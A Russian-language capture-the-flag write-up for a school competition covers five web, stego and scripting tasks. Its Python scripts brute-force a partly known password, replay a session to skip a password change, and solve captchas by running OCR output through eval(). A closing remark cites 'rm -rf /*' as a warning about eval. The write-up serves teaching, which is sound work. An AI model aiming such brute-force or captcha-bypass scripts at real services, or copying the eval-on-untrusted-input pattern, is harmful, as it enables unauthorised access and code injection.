 ## 1. Singularity (web)
#### Условие:
`Эх, когда уже наступит сингулярность...` http://45.143.94.76:3004/
#### Как решать?
переходим на сайт по ссылке из условия:

![](https://storage.geekclass.ru/images/86481ba2-1168-435e-8d39-17036fce6c29.png)
Внимательно смотрим, что отправляется при нажатии на кнопку:

![](https://storage.geekclass.ru/images/2807dc80-f8b8-40d5-b3c8-bdb805fd85bc.png)

И это просто локальное время: `let t = new Date();`

Cоеденив эту информацию с огромной надписью на сайте (флаг будет доступен в 2045 году) ~~отправляем на сервер post запрос с любым временем 2045 года в формате YYYY-MM-DDTHH:mm:ss.sssZ~~ переставляем локальное время на 2045 год и ... получаем флаг!

## 2. well-known song (stego)
#### Условие:
`Хм, где-то я слышал эту песню...` http://web.ctf.msk.ru/ctn2020kdjfkasakd/web2/wiedzmin/strange_sound.mp3
#### Как решать?
Скачиваем файл и смотрим свойства:

![](https://storage.geekclass.ru/images/4a6da481-67e5-45db-9cb1-fb05f4abb6e0.png)

Обращаем внимание на ~~то, что это не христианский рок~~ имя исполнителя. Догадываемся, что нужно посмотреть спектрограмму. Для этого подойдут программы `Sonic Visualizer` или `Audacity`

Открываем спектрограмму на `0:34 - 0:40` (в это время в аудио слышны подозрительные звуки)

![](https://storage.geekclass.ru/images/a45e3318-9267-4033-b1a0-178ddaf21027.png)
А вот и флаг!

## 3. za_pazwardo (web + ppc)
#### Условие:
`И ты, Брут?` http://45.143.94.76:3000/
#### Как решать?
Открываем сайт: 

![](https://storage.geekclass.ru/images/caf866ae-d1e4-441e-a97f-f44e41dccd66.png)

Ага, требуется ввести пароль в формате `[a-z0-9]` (буквы латинского алфавита в нижнем регистре и цифры от 0 до 9)

В html коде замечаем, что пароль почти полностью известен, неизвестно лишь 2 символа. Внимательно прочитав условия задачи понимаем, что нужно пробрутить (перебрать все возможные комбинации) пароль.

Пишем простой скрипт на питоне:
```
import sys

import requests
from string import ascii_lowercase

passw = "24{}secb7{}5falqdss"

dictionary = ascii_lowercase + "0123456789"
c = 0
url = "http://45.143.94.76:3000/check"

for let1 in dictionary:
    for let2 in dictionary:

        rez = requests.get(url, params={"password": passw.format(let1, let2)})
        print(c, passw.format(let1, let2))
        c += 1
        if "CYBERTHON{" in rez.text:
            print("flag found: ", rez.text)
            sys.exit(0)
```

Флаг получаем на 458 итерации.

## 4. za_pazwardo_requiem (web)
#### Условие:
`Теперь ты знаешь пароль, но никогда не сможешь достичь цели...` http://45.143.94.76:3001/
#### Как решать?
Переходим на веб-страницу:

![](https://storage.geekclass.ru/images/eb2a6d38-4f94-46b1-a4d4-077c19ac9f7e.png)
Пробуем отправить пароль и... 

![](https://storage.geekclass.ru/images/dc9d6351-0679-46c0-8af8-861c4ff8041d.png)

Смотрим, какие запросы отправляются:
![](https://storage.geekclass.ru/images/4bb0f459-f0e0-4729-b874-6086c1793da1.png)

Замечаем, что каждый раз отправляется 2 запроса, один на смену пароля, другой на проверку. Тем самым проверяется уже новый пароль, а не старый. Нужно просто отправить один запрос на проверку, вместо двух.

Код на питоне:
```
import requests
import re

s = requests.Session()
url = "http://45.143.94.76:3001/"

html = s.get(url).text
pasw = re.findall(r'passw">([a-z0-9\-]+)<', html)  # quick&dirty
print(pasw[0])

rez = s.post(url + "check", data={"new_passw": pasw[0]})
print(rez.text)
```

>Для того, чтобы пароль не поменялся между запросами используем сессию: `requests.Session()`

`P.S` *никогда* не парсите html регулярками (трюк выполнен профессионалом)

## 5. captcha_generator (web + ppc)
#### Условие:
`Что ты знаешь про OCR?` http://45.143.94.76:3002/
#### Как решать?
Заходим на сайт:

![](https://storage.geekclass.ru/images/80ab255f-33e6-438b-a664-f18149ede4d8.png)

Опытным путём выясняем, что нужно решить 250 математических примеров. Да еще и распознать их! Используем pytesseract и PIL.
>Использование tesseract OCR разбиралось на мастер-классе перед 4 этапом, все материалы находятся в курсе: [Материалы для подготовки к Кибертону](https://geekclass.ru/insider/courses/95)

~~Решаем все 250 примеров руками~~ Пишем код на питоне:
```
import pytesseract
from PIL import Image
import requests
import re

s = requests.Session()
url = "http://45.143.94.76:3002/"

html = s.get(url).text

errors = {79: 4330, 178: 617, 212: 2749}

for i in range(252):

    img_link = re.findall(r'src="(.+)" width', html)[0]
    img = s.get(url + img_link).content

    with open("captcha.png", "wb") as f:
        f.write(img)

    # tesseract бывает ошибается
    if i in errors:
        res = errors[i]
    else:
        pytesseract.pytesseract.tesseract_cmd = r'C:\tesseract\tesseract.exe'
        exp = pytesseract.image_to_string(Image.open('captcha.png'))
        res = eval(exp)
        print(i, exp, res)

    html = s.post(url + "check", data={"example": res}).text

    if "CYBERTHON{" in html:
        print(html)
        break
```
`P.S` Про регулярные выражения вы уже поняли, а вот `eval` использовать тоже не надо (Представьте что бы случилось если бы в последнем изображени было бы `rm -rf /*`). Все выражения имеют одинаковую структуру, поэтому можно просто делать split() и брать числа поэлементно

После решения всех 250 примеров получаем флаг.